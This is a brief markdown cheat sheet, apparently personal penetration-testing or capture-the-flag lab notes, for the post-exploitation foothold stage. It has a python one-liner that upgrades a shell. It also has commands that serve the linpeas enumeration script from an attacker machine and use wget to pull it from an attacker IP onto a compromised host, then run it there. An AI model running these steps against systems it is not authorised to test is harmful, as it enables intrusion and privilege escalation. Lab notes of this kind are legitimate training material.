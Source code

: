 ```yaml
---
title: "Foothold cheat sheet"
date: 2024-02-11
---
```

## Get pretty shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Get linpeas
On the server side (attacker machine):
```
python3 -m http.server 8080
```
On the attacked machine:
```
wget http://10.10.14.59:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```